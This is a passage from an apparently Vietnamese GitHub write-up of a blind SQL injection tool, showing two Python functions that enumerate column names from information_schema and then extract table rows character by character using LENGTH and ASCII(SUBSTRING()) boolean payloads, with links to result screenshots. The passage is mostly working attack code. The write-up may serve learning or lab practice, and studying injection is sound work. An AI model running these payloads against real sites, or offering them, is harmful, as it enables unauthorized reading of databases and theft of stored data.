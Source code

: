 **Kết quả TABLES:**
![Screenshot 2025-05-27 144524](https://github.com/user-attachments/assets/9af5e4c5-e879-41c2-af89-8956518f8b61)


##### 8.Hàm  `get_columns`

Lấy ra các cột có trong bảng vừa chọn
```js
def get_columns(table, database, selected_columns=None):  
    """Lấy danh sách columns của một table, chỉ lấy những cột người dùng muốn."""  
    columns = []  
    if selected_columns:  
        # Nếu người dùng nhập vào cột, chỉ lấy các cột đó  
        columns = selected_columns  
    else:  
        # Nếu không nhập, lấy tất cả các cột  
        index = 1  
        while True:  
            base_payload = (  
                f"' AND LENGTH((SELECT column_name FROM information_schema.columns WHERE table_name='{table}' AND table_schema='{database}' LIMIT {index - 1}, 1)) = {{length}}--+-"  
            )  
            length = get_string_length(base_payload)  
            if not length:  
                break  
            base_payload_content = (  
                f"' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='{table}' AND table_schema='{database}' LIMIT {index - 1}, 1), {{position}}, 1)) {{operator}} {{value}}--+-"  
            )  
            column_name = get_string_content(base_payload_content, length)  
            columns.append(column_name)  
            index += 1  
    return columns
```

**Kết quả COLUMNS:**
![Screenshot 2025-05-27 144549](https://github.com/user-attachments/assets/d5c0602b-fea8-42f4-89fc-575166b0fc12)


##### 9.Hàm `get_data_from_table`

Lấy ra các giá trị có trong tường cột

```js
def get_data_from_table(table, selected_columns, database):  
    """Lấy dữ liệu từ một table, chỉ lấy dữ liệu của các cột người dùng yêu cầu."""  
    data = []  
    index = 1  
    while True:  
        row = {}  
        for column in selected_columns:  
            base_payload = (  
                f"' AND LENGTH((SELECT {column} FROM {database}.{table} LIMIT {index - 1}, 1)) = {{length}}--+-"  
            )  
            length = get_string_length(base_payload)  
            if not length:  
                return data  
            base_payload_content = (  
                f"' AND ASCII(SUBSTRING((SELECT {column} FROM {database}.{table} LIMIT {index - 1}, 1), {{position}}, 1)) {{operator}} {{value}}--+-"  
            )  
            value = get_string_content(base_payload_content, length)  
            row[column] = value  
        data.append(row)  
```